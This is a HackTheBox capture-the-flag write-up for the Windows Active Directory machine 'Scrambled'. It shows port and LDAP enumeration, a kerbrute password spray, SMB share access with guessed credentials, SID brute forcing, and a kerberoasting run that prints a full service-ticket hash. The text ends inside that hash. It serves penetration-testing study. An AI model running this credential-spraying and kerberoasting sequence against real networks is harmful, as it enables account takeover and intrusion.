# CTF Penetration Testing

## Platform: HackTheBox

### Machine: [Scrambled](https://www.hackthebox.com/machines/Scrambled)


- Machine type:  Windows
- Machine difficulty: 🟨 Medium (<span style="color:#f4b03b;">5.7</span>)

> Scrambled is a medium Windows Active Directory machine. Enumerating the website hosted on the remote machine a potential attacker is able to deduce the credentials for the user `ksimpson`. On the website, it is also stated that NTLM authentication is disabled meaning that Kerberos authentication is to be used. Accessing the `Public` share with the credentials of `ksimpson`, a PDF file states that an attacker retrieved the credentials of an SQL database. This is a hint that there is an SQL service running on the remote machine. Enumerating the normal user accounts, it is found that the account `SqlSvc` has a Service Principal Name (SPN) associated with it. An attacker can use this information to perform an attack that is knows as kerberoasting and get the hash of `SqlSvc`. After cracking the hash and acquiring the credentials for the `SqlSvc` account an attacker can perform a silver ticket attack to forge a ticket and impersonate the user `Administrator` on the remote MSSQL service. Enumeration of the database reveals the credentials for user `MiscSvc`, which can be used to execute code on the remote machine using PowerShell remoting. System enumeration as the new user reveals a .NET application, which is listening on port 4411. Reverse engineering the application reveals that it is using the insecure `Binary Formatter` class to transmit data, allowing the attacker to upload their own payload and get code execution as `nt authority\system`.

#### Tools Used

**Linux**:
- evil-winrm
- impacket-GetUserSPNs
- impacket-lookupsid
- impacket-mssqlclient
- impacket-smbclient
- impacket-ticketer
- john
- kerbrute
- netcat
- netexec
- nmap
- rlwrap

**Windows**:
- nc64.exe
- ysoserial.exe

#### Skills Required

- Enumeration
- Kerberos Authentication
- Source Code Review
- Reverse Engineering

#### Skills Learned

- Kerberoasting
- Silver Ticket Attack
- [Deserialization Attack](https://www.cobalt.io/blog/the-anatomy-of-deserialization-attacks)

#### Machine Writeup


`ifconfig tun0`:
```
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.32📌 netmask 255.255.254.0  destination 10.10.14.32
        inet6 dead:beef:2::101e  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::e0f4:a9cb:e7fb:949c  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 224  bytes 94880 (92.6 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 378  bytes 330337 (322.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`fping 10.10.11.168`:
```
10.10.11.168 is alive
```

`sudo nmap -Pn -sSV -p- -T5 10.10.11.168`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 06:48 EST
Nmap scan report for DC1.scrm.local (10.10.11.168)
Host is up (0.14s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0🌐
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-10 11:53:26Z)🌐
135/tcp   open  msrpc         Microsoft Windows RPC🌐
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn🌐
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)🌐
445/tcp   open  microsoft-ds?🌐
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000🌐
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
4411/tcp  open  found?🔍
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)🌐
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49700/tcp open  msrpc         Microsoft Windows RPC
61979/tcp open  msrpc         Microsoft Windows RPC
62002/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94SVN%I=7%D=1/10%Time=67810A34%P=x86_64-pc-linux-gnu%r
SF:(NULL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.
SF:0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_OR
SF:DERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLE
SF:CORP_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDE
SF:RS_V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UN
SF:KNOWN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\
SF:r\n")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(
SF:TLSSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SC
SF:RAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Fo
SF:urOhFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMM
SF:AND;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,3
SF:5,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LAND
SF:esk-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3
SF:;\r\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D
SF:,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORD
SF:ERS_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n"
SF:)%r(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLE
SF:CORP_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\
SF:n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 428.21 seconds
```

`sudo nmap -Pn -sS --script=ldap-rootdse -p389 10.10.11.168`:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-10 06:46 EST
Nmap scan report for 10.10.11.168
Host is up (0.23s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-rootdse: 
| LDAP Results
|   <ROOT>
|       domainFunctionality: 7
|       forestFunctionality: 7
|       domainControllerFunctionality: 7
|       rootDomainNamingContext: DC=scrm,DC=local
|       ldapServiceName: scrm.local:dc1$@SCRM.LOCAL
|       isGlobalCatalogReady: TRUE
|       supportedSASLMechanisms: GSSAPI
|       supportedSASLMechanisms: GSS-SPNEGO
|       supportedSASLMechanisms: EXTERNAL
|       supportedSASLMechanisms: DIGEST-MD5
|       supportedLDAPVersion: 3
|       supportedLDAPVersion: 2
|       supportedLDAPPolicies: MaxPoolThreads
|       supportedLDAPPolicies: MaxPercentDirSyncRequests
|       supportedLDAPPolicies: MaxDatagramRecv
|       supportedLDAPPolicies: MaxReceiveBuffer
|       supportedLDAPPolicies: InitRecvTimeout
|       supportedLDAPPolicies: MaxConnections
|       supportedLDAPPolicies: MaxConnIdleTime
|       supportedLDAPPolicies: MaxPageSize
|       supportedLDAPPolicies: MaxBatchReturnMessages
|       supportedLDAPPolicies: MaxQueryDuration
|       supportedLDAPPolicies: MaxDirSyncDuration
|       supportedLDAPPolicies: MaxTempTableSize
|       supportedLDAPPolicies: MaxResultSetSize
|       supportedLDAPPolicies: MinResultSets
|       supportedLDAPPolicies: MaxResultSetsPerConn
|       supportedLDAPPolicies: MaxNotificationPerConn
|       supportedLDAPPolicies: MaxValRange
|       supportedLDAPPolicies: MaxValRangeTransitive
|       supportedLDAPPolicies: ThreadMemoryLimit
|       supportedLDAPPolicies: SystemMemoryLimitPercent
|       supportedControl: 1.2.840.113556.1.4.319
|       supportedControl: 1.2.840.113556.1.4.801
|       supportedControl: 1.2.840.113556.1.4.473
|       supportedControl: 1.2.840.113556.1.4.528
|       supportedControl: 1.2.840.113556.1.4.417
|       supportedControl: 1.2.840.113556.1.4.619
|       supportedControl: 1.2.840.113556.1.4.841
|       supportedControl: 1.2.840.113556.1.4.529
|       supportedControl: 1.2.840.113556.1.4.805
|       supportedControl: 1.2.840.113556.1.4.521
|       supportedControl: 1.2.840.113556.1.4.970
|       supportedControl: 1.2.840.113556.1.4.1338
|       supportedControl: 1.2.840.113556.1.4.474
|       supportedControl: 1.2.840.113556.1.4.1339
|       supportedControl: 1.2.840.113556.1.4.1340
|       supportedControl: 1.2.840.113556.1.4.1413
|       supportedControl: 2.16.840.1.113730.3.4.9
|       supportedControl: 2.16.840.1.113730.3.4.10
|       supportedControl: 1.2.840.113556.1.4.1504
|       supportedControl: 1.2.840.113556.1.4.1852
|       supportedControl: 1.2.840.113556.1.4.802
|       supportedControl: 1.2.840.113556.1.4.1907
|       supportedControl: 1.2.840.113556.1.4.1948
|       supportedControl: 1.2.840.113556.1.4.1974
|       supportedControl: 1.2.840.113556.1.4.1341
|       supportedControl: 1.2.840.113556.1.4.2026
|       supportedControl: 1.2.840.113556.1.4.2064
|       supportedControl: 1.2.840.113556.1.4.2065
|       supportedControl: 1.2.840.113556.1.4.2066
|       supportedControl: 1.2.840.113556.1.4.2090
|       supportedControl: 1.2.840.113556.1.4.2205
|       supportedControl: 1.2.840.113556.1.4.2204
|       supportedControl: 1.2.840.113556.1.4.2206
|       supportedControl: 1.2.840.113556.1.4.2211
|       supportedControl: 1.2.840.113556.1.4.2239
|       supportedControl: 1.2.840.113556.1.4.2255
|       supportedControl: 1.2.840.113556.1.4.2256
|       supportedControl: 1.2.840.113556.1.4.2309
|       supportedControl: 1.2.840.113556.1.4.2330
|       supportedControl: 1.2.840.113556.1.4.2354
|       supportedCapabilities: 1.2.840.113556.1.4.800
|       supportedCapabilities: 1.2.840.113556.1.4.1670
|       supportedCapabilities: 1.2.840.113556.1.4.1791
|       supportedCapabilities: 1.2.840.113556.1.4.1935
|       supportedCapabilities: 1.2.840.113556.1.4.2080
|       supportedCapabilities: 1.2.840.113556.1.4.2237
|       subschemaSubentry: CN=Aggregate,CN=Schema,CN=Configuration,DC=scrm,DC=local
|       serverName: CN=DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=scrm,DC=local
|       schemaNamingContext: CN=Schema,CN=Configuration,DC=scrm,DC=local
|       namingContexts: DC=scrm,DC=local
|       namingContexts: CN=Configuration,DC=scrm,DC=local
|       namingContexts: CN=Schema,CN=Configuration,DC=scrm,DC=local
|       namingContexts: DC=DomainDnsZones,DC=scrm,DC=local
|       namingContexts: DC=ForestDnsZones,DC=scrm,DC=local
|       isSynchronized: TRUE
|       highestCommittedUSN: 291048
|       dsServiceName: CN=NTDS Settings,CN=DC1,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=scrm,DC=local
|       dnsHostName: DC1.scrm.local📌
|       defaultNamingContext: DC=scrm,DC=local
|       currentTime: 20250110114618.0Z
|_      configurationNamingContext: CN=Configuration,DC=scrm,DC=local
Service Info: Host: DC1; OS: Windows

Nmap done: 1 IP address (1 host up) scanned in 1.16 seconds
```

`echo -e '10.10.11.168\tDC1.scrm.local DC1 scrm.local' | sudo tee -a /etc/hosts`:
```
10.10.11.168    DC1.scrm.local DC1 scrm.local
```

`netexec smb 10.10.11.168`:
```
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)📌
```

`firefox http://10.10.11.168/ &`







`netexec smb 10.10.11.168 -u 'ksimpson' -p 'ksimpson'`:
```
SMB         10.10.11.168    445    10.10.11.168     [*]  x64 (name:10.10.11.168) (domain:10.10.11.168) (signing:True) (SMBv1:False)
SMB         10.10.11.168    445    10.10.11.168     [-] 10.10.11.168\ksimpson:ksimpson STATUS_NOT_SUPPORTED 
```
❌

`vim ./domain_users.txt`:
```
ksimpson
```

`kerbrute passwordspray --dc 10.10.11.168 -d 'scrm.local' ./domain_users.txt 'ksimpson'`:
```
    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 01/10/25 - Ronnie Flathers @ropnop

2025/01/10 07:46:07 >  Using KDC(s):
2025/01/10 07:46:07 >   10.10.11.168:88

2025/01/10 07:46:08 >  [+] VALID LOGIN:  ksimpson@scrm.local:ksimpson🔑
2025/01/10 07:46:08 >  Done! Tested 1 logins (1 successes) in 0.517 seconds
```

`impacket-smbclient -k 'scrm.local/ksimpson:ksimpson@DC1.scrm.local'`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
Type help for list of commands
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL
# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 18:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 18:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 13:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
```

`xdg-open ./Network\ Security\ Changes.pdf`


`impacket-lookupsid 'scrm.local/ksimpson:ksimpson@DC1.scrm.local' -k`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at DC1.scrm.local
[*] StringBinding ncacn_np:DC1.scrm.local[\pipe\lsarpc]
[-] CCache file is not found. Skipping...
[*] Domain SID is: S-1-5-21-2743207045-1827831105-2542523200📌
498: SCRM\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: SCRM\administrator (SidTypeUser)
501: SCRM\Guest (SidTypeUser)
502: SCRM\krbtgt (SidTypeUser)
512: SCRM\Domain Admins (SidTypeGroup)
513: SCRM\Domain Users (SidTypeGroup)
514: SCRM\Domain Guests (SidTypeGroup)
515: SCRM\Domain Computers (SidTypeGroup)
516: SCRM\Domain Controllers (SidTypeGroup)
517: SCRM\Cert Publishers (SidTypeAlias)
518: SCRM\Schema Admins (SidTypeGroup)
519: SCRM\Enterprise Admins (SidTypeGroup)
520: SCRM\Group Policy Creator Owners (SidTypeGroup)
521: SCRM\Read-only Domain Controllers (SidTypeGroup)
522: SCRM\Cloneable Domain Controllers (SidTypeGroup)
525: SCRM\Protected Users (SidTypeGroup)
526: SCRM\Key Admins (SidTypeGroup)
527: SCRM\Enterprise Key Admins (SidTypeGroup)
553: SCRM\RAS and IAS Servers (SidTypeAlias)
571: SCRM\Allowed RODC Password Replication Group (SidTypeAlias)
572: SCRM\Denied RODC Password Replication Group (SidTypeAlias)
1000: SCRM\DC1$ (SidTypeUser)
1101: SCRM\DnsAdmins (SidTypeAlias)
1102: SCRM\DnsUpdateProxy (SidTypeGroup)
1106: SCRM\tstar (SidTypeUser)
1107: SCRM\asmith (SidTypeUser)
1109: SCRM\ProductionFloor1 (SidTypeGroup)
1114: SCRM\ProductionShare (SidTypeGroup)
1115: SCRM\AllUsers (SidTypeGroup)
1118: SCRM\sjenkins (SidTypeUser)
1119: SCRM\sdonington (SidTypeUser)
1120: SCRM\WS01$ (SidTypeUser)
1601: SCRM\backupsvc (SidTypeUser)
1603: SCRM\jhall (SidTypeUser)
1604: SCRM\rsmith (SidTypeUser)
1605: SCRM\ehooker (SidTypeUser)
1606: SCRM\SalesUsers (SidTypeGroup)
1608: SCRM\HRShare (SidTypeGroup)
1609: SCRM\ITShare (SidTypeGroup)
1610: SCRM\ITUsers (SidTypeGroup)
1611: SCRM\khicks (SidTypeUser)
1612: SCRM\SalesShare (SidTypeGroup)
1613: SCRM\sqlsvc (SidTypeUser)
1616: SCRM\SQLServer2005SQLBrowserUser$DC1 (SidTypeAlias)
1617: SCRM\miscsvc (SidTypeUser)
1619: SCRM\ksimpson (SidTypeUser)
1620: SCRM\NoAccess (SidTypeGroup)
```

`impacket-lookupsid 'scrm.local/ksimpson:ksimpson@DC1.scrm.local' -k | grep 'SidTypeUser' | awk '{print $2}' | awk -F '\' '{print $2}' | sort -u | tee ./domain_users.txt`:
```
DC1$
Guest
WS01$
administrator
asmith
backupsvc
ehooker
jhall👤
khicks
krbtgt
ksimpson👤
miscsvc👤
rsmith
sdonington
sjenkins
sqlsvc👤
tstar
```

`impacket-GetUserSPNs 'scrm.local/ksimpson:ksimpson' -dc-ip 10.10.11.168 -usersfile ./domain_users.txt -k`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...

[...]

[-] Principal: ksimpson - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: miscsvc - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: rsmith - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: sdonington - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: sjenkins - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$sqlsvc*$272aacf65c9bf8fa371ed31f5ac7b462$9b49654ed98a0fd1bd1524720c97360285eb9ae274e0d737e2d5fd1a97f6434cb8308d9b2f2bdf58341daaf60e6c80e1fd560493c021a4427e9d4d59f212471d4ace54be1d5e680f848b8de7b6d6f15b7249bef6a1dca2b78e447f774ea909458820c6a25cf1056a2b0cab0d0777d97ce90ad51ce7f8e83b6fcfd689a2d8afe49375844d9d71b7ad1faa9a1ddb5a97033ec5d2e9046a4da27df804f21ffc0c12fdabd8aa72b63ad54a244146e92897c0fe80bfe1dbc7a6fecb54455ab0f8abfe2dd79d1c9be2b65d76070e2e7cb8257421cbb60bb770425158ff3d607bdd72e869120df08f98a4461ea61984deb78d25eeeb9a9ddc541f068c916745f26ade3669d2f6893012cfc39cd4064e131f892b2f4011424ff694c6cb42cf32221489fbb444c3e242f0bec96be6a438bff7657fe3a033444100dc15beec5c8fe6f1513cdcb39aef9a40313c97f8ab0c960e4b28f233ab693518716b49027ac91e7983f585ea41b6e5e82dbcb6effb5921de2a2a77337f43f273df46b792c535b0ae68e7c07bc287fb77cb26a86292584189ef93c2b0a1484c0ce7e17f47cbeac48f4acf38d2d8ccca5683c50fffc0ec631b0e39010c25d9132769303b9269de7e6da0e2228f8683eb2e193f7ba6e271c7dd7960f009ed9664a622307bccd0ab0ca300580611d69b1b7c5c5848f904836e1fd240048c689b6906089de67d7270a5c30b00ecb1a4686770e01c6c3fbf187ee44aca22b833b8612c40d37dd682b4d3e21f573f3075c3c288d047fd25277d64de9f557d4050552aba65581805110cf02abc8364bcb1a88de732660d9431b4dc955fd7cbcae41549b4b81f63296c110bb946a1b17942ccb7096c69f2bcc3704707aefd43b2f453b9fa3f41340dac10bbd1b69bd01187dc2b0f1320cd19db292aaac4808c766bb90c86284a5f327a988f7dc49738db0f329b4ecc4c865bf2e37b89340e0b8c26f145d16d7bdbfda8e2a2890a61c3804b353045d9d6623f913e113ba88613547d0867422a845042d17cdff27a435e39dfa0cf08cd1b4b4660043bc32b9234550a0444ba858b037f2203afe1ebb755c46fa825854baf261a89371ca83096c90ab75a9b423d981004a4108b309a171f29841a96194e4d3df31822f52543ef25d871a474edbc66ea98643fba4b9b0f4fd60759e07a385559c0130086b14f381efd007f0f01b46b490d800d676f49f3ded60c1bc625dace4ffaa8f54a986d0e32586902a2d5065b47c4896a68891273163ba9608e39117e8f105d38ff4c0cd8b6cd13f03534f3a48a4955e919ce92c0b8589aa5a8f77bc93bcb7638f3cb9ebae964cd5b3a92fb7501cade98a96a9e3ee3bed675505357081d069be459c0b465a4326752d992aecc04ce739c4363cf98210f824c0c80a95605c98d756925f9ded18b883032f0f2fca72c79
[-] Principal: tstar - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

`vim ./krb5tgs_sqlsvc_hash.txt`:
```
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$sqlsvc*$272aacf65c9bf8fa371ed31f5ac7b462$9b49654ed98a0fd1bd1524720c97360285eb9ae274e0d737e2d5fd1a97f6434cb8308d9b2f2bdf58341daaf60e6c80e1fd560493c021a4427e9d4d59f212471d4ace54be1d5e680f848b8de7b6d6f15b7249bef6a1dca2b78e447f774ea909458820c6a25cf1056a2b0cab0d0777d97ce90ad51ce7f8e83b6fcfd689a2d8afe49375844d9d71b7ad1faa9a1ddb5a97033ec5d2e9046a4da27df804f21ffc0c12fdabd8aa72b63ad54a244146e92897c0fe80bfe1dbc7a6fecb54455ab0f8abfe2dd79d1c9be2b65d76070e2e7cb8257421cbb60bb770425158ff3d607bdd72e869120df08f98a4461ea61984deb78d25eeeb9a9ddc541f068c916745f26ade3669d2f6893012cfc39cd4064e131f892b2f4011424ff694c6cb42cf32221489fbb444c3e242f0bec96be6a438bff7657fe3a033444100dc15beec5c8fe6f1513cdcb39aef9a40313c97f8ab0c960e4b28f233ab693518716b49027ac91e7983f585ea41b6e5e82dbcb6effb5921de2a2a77337f43f273df46b792c535b0ae68e7c07bc287fb77cb26a86292584189ef93c2b0a1484c0ce7e17f47cbeac48f4acf38d2d8ccca5683c50fffc0ec631b0e39010c25d9132769303b9269de7e6da0e2228f8683eb2e193f7ba6e271c7dd7960f009ed9664a622307bccd0ab0ca300580611d69b1b7c5c5848f904836e1fd240048c689b6906089de67d7270a5c30b00ecb1a4686770e01c6c3fbf187ee44aca22b833b8612c40d37dd682b4d3e21f573f3075c3c288d047fd25277d64de9f557d4050552aba65581805110cf02abc8364bcb1a88de732660d9431b4dc955fd7cbcae41549b4b81f63296c110bb946a1b17942ccb7096c69f2bcc3704707aefd43b2f453b9fa3f41340dac10bbd1b69bd01187dc2b0f1320cd19db292aaac4808c766bb90c86284a5f327a988f7dc49738db0f329b4ecc4c865bf2e37b89340e0b8c26f145d16d7bdbfda8e2a2890a61c3804b353045d9d6623f913e113ba88613547d0867422a845042d17cdff27a435e39dfa0cf08cd1b4b4660043bc32b9234550a0444ba858b037f2203afe1ebb755c46fa825854baf261a89371ca83096c90ab75a9b423d981004a4108b309a171f29841a96194e4d3df31822f52543ef25d871a474edbc66ea98643fba4b9b0f4fd60759e07a385559c0130086b14f381efd007f0f01b46b490d800d676f49f3ded60c1bc625dace4ffaa8f54a986d0e32586902a2d5065b47c4896a68891273163ba9608e39117e8f105d38ff4c0cd8b6cd13f03534f3a48a4955e919ce92c0b8589aa5a8f77bc93bcb7638f3cb9ebae964cd5b3a92fb7501cade98a96a9e3ee3bed675505357081d069be459c0b465a4326752d992aecc04ce739c4363cf98210f824c0c80a95605c98d756925f9ded